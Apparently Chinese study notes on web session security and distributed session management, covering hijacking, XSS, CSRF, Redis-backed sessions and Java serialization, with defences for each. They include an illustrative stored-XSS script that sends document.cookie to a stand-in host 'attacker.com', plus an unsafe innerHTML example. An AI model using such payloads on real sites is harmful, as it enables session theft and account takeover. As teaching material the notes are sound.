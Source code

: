 # **[会话技术]()**

## **[1.会话安全性]()**
### **[会话劫持和防御]()**
会话劫持（Session Hijacking）是指攻击者通过窃取合法用户的会话标识（如Cookie、Session ID）来冒充用户执行敏感操作。常见的会话劫持手段包括:
* **Session Fixation（会话固定攻击）：** 攻击者预先设定一个合法的Session ID并诱骗用户使用这个ID，随后攻击者通过复用这个Session ID劫持用户的会话。
* **Cross-Site Scripting (XSS)：** 攻击者通过植入恶意脚本，利用受害者的浏览器泄露会话标识。
* **恶意代码注入（Malware Injection）：** 通过恶意软件直接窃取用户的会话信息。
* **Cross-Site Request Forgery (CSRF)：** 攻击者通过伪造请求，利用用户已经认证的会话在服务器上执行未授权的操作。

#### **防御措施**

使用HTTPS：通过加密传输防止Session ID被窃取。
设置安全Cookie：启用HttpOnly和Secure标志，防止JavaScript访问和仅通过HTTPS传输。
定期更换Session ID：尤其在用户身份验证后，确保Session ID的唯一性和短时有效性。
IP绑定和设备指纹：根据用户的IP地址或设备信息做进一步验证。
### **[跨站脚本攻击（XSS）和防御]()**
XSS攻击是通过注入恶意脚本到受信任的网页，利用受害者的浏览器执行恶意代码。主要有:
* **反射型 XSS（Reflected XSS）：** 攻击者将恶意脚本嵌入到URL参数中，当受害者点击该链接时，服务器直接将这些脚本返回到用户的浏览器中执行。
  场景：用户点击了包含恶意脚本的链接后，浏览器立即执行了脚本，攻击者可以窃取用户的敏感信息。
  html示例：攻击者构造恶意链接
http://example.com/search?q=alert(document.cookie)

* **存储型 XSS（Stored XSS）：** 攻击者将恶意脚本存储在服务器的数据库中，其他用户在访问受感染的页面时，这些脚本会被自动加载和执行。
  场景：攻击者将恶意脚本存入论坛、评论区等，其他访问这些页面的用户会在不知情的情况下执行这些恶意代码。
  示例：攻击者在论坛发帖

  
  <script>var xhr = new XMLHttpRequest(); xhr.open('POST', 'http://attacker.com', true); xhr.send(document.cookie); </script>
  
* **DOM型 XSS（DOM-based XSS）：** 攻击者通过操控浏览器的DOM对象，使浏览器在本地解析时执行恶意代码。这种攻击发生在客户端，不依赖服务器的响应。
  场景：JavaScript直接操作DOM，生成并执行了不安全的脚本。
  示例：不安全的DOM操作
  
  
  var userInput = document.getElementById('inputBox').value;
   document.getElementById('resultDiv').innerHTML = userInput; // 没有进行转义处理



#### **防御措施**

输入验证：对用户输入进行严格的过滤和编码，防止恶意代码被注入。
输出编码：将所有可能包含用户输入的输出进行适当的编码（如HTML、JavaScript、URL编码）。
使用内容安全策略（CSP）：限制网页中可执行的脚本来源，降低攻击面。
### **[跨站请求伪造（CSRF）和防御]()**
CSRF攻击通过伪造请求使受害者在已登录的情况下执行恶意操作，通常借助社交工程让受害者点击恶意链接。

#### **防御措施**

CSRF Token：在每个表单或请求中嵌入唯一的随机Token，并在服务器端验证。
双重Cookie验证：将CSRF Token存储在Cookie中，并在请求时与表单或头信息中的Token对比。
SameSite Cookie属性：通过设置Cookie的SameSite属性限制第三方站点对Cookie的访问。


## **[2.分布式会话管理]()**
### **[布式环境下的会话同步问题]()**
在分布式环境中，会话数据需要在多个服务器之间同步。若负载均衡器将请求随机分发到不同的服务器，而每台服务器上保存的会话信息不一致，可能会导致会话状态丢失或不一致。

解决方案：

会话粘滞（Session Stickiness）：负载均衡器将同一个用户的所有请求路由到同一台服务器上。
集中存储：将会话数据存储在集中式存储系统中，如数据库或缓存服务（Redis、Memcached）。
### **[Session集群解决方案 ]()**
在分布式系统中，集群内的会话共享通常通过以下方案实现：

共享数据库：所有服务器使用同一数据库来存储会话数据，确保一致性，但可能存在性能瓶颈。
分布式缓存（如Redis、Memcached）：将会话数据存储在高性能的分布式缓存中，提升访问速度和扩展性。
基于Token的无状态会话：使用JWT等方式，将会话信息直接包含在Token中，避免服务器端存储会话。
### **[使用Redis等缓存技术实现分布式会话 ]()**
Redis是高性能的键值数据库，常用于会话存储。Redis支持数据持久化、高并发，并且提供了自动过期机制，适合存储短生命周期的会话信息。

Redis分布式会话优点：

高可用性：通过集群配置或主从复制确保会话数据的高可用性。
扩展性：Redis集群可以轻松扩展以处理更多的请求和会话数据。
## **[3.会话状态的序列化和反序列化]()**
### **[会话状态的序列化和反序列化 ]()**
序列化是将对象转换为字节流以便存储或传输的过程，而反序列化是将字节流还原为对象的过程。在分布式会话管理中，序列化会话数据便于跨服务器共享会话状态。

### **[什么需要序列化会话状态]()**
在分布式或持久化存储中，会话数据必须从内存转移到其他存储介质中（如数据库、缓存）。为保证数据的可传输性和可恢复性，必须对复杂的对象进行序列化。

序列化的必要性：

持久化：使对象能够存储在文件、数据库等持久化存储中。
跨网络传输：通过序列化，复杂的对象可以在不同机器之间传输。
分布式环境中共享：多个节点共享同一个会话时，需要将会话序列化并存储在集中式存储中。
### **[Java对象序列化 ]()**
在Java中，Java对象可以通过Serializable接口实现序列化。Java的内建序列化机制可以将对象的状态保存为字节序列，之后再将其反序列化恢复。

示例：
 
  import java.io.Serializable;
  public class UserSession implements Serializable {
  private static final long serialVersionUID = 1L;
  private String username;
  private int userId;
  // Getters and Setters
  }
注意点：

安全性问题：Java原生序列化机制可能存在安全漏洞（如反序列化攻击），应谨慎使用。
性能开销：Java的默认序列化性能较低，可能会产生较大的序列化数据


### **[什么需要序列化会话状态]()**

为了提高性能或增强安全性，可以实现自定义的序列化策略，例如：
Externalizable接口：允许开发者自定义对象的序列化逻辑。
使用JSON、Protobuf等格式：代替Java原生的序列化格式，提升序列化性能并降低数据传输的体积。

 示例：
  ```
  private void writeObject(ObjectOutputStream oos) throws IOException {
  oos.defaultWriteObject();
  oos.writeObject(encryptPassword(password)); // 自定义加密后的密码序列化
  }
  private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
  ois.defaultReadObject();
  this.password = decryptPassword((String) ois.readObject()); // 自定义解密后的密码反序列化
  }




